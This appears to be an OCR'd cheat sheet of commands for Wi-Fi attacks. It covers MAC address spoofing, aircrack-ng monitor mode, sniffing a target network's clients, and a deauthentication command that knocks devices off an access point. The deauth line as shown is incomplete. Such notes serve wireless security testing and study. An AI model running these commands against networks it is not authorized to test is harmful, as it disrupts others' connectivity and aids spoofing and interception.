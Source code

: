 # Changes MAC address

sudo ifconfig wlan0 down
sudo ifconfig wlan0 hw ether xx:xx:xx:xx:xx:xx
sudo ifconfig wlan0 up

*************************************************

# Check wireless card adapter

airmon-ng 

*************************************************

# Start airmon-ng by killing the processes in the background. Then use the command to start monitor mode on wlan0 (if that is the wcard you got from the first command)

airmon-ng check kill 
airmon-ng start wlan0 

*************************************************

# For monitoring

airodump-ng wlan0mon

*************************************************

# For monitoring a specific network's users (change channel to its channel and the mac address to the AP's)

airodump-ng --channel 6 --bssid xx:xx:xx:xx:xx:xx wlan0mon

*************************************************

# To deauth: Change 2000 to a higher number for a prolonged effect. Change the first MAC address to the one of the AP to impersonate (-a) and the second to the device's to deauth (-c). Think of -a for AP and -c for client

aireplay-ng --deauth 2000

*************************************************

# To stop and bring back the network adapter in managed mode (aka 'to see the wireless back')

airmon-ng stop wlan0mon
service networking restart
service network-manager restart

*************************************************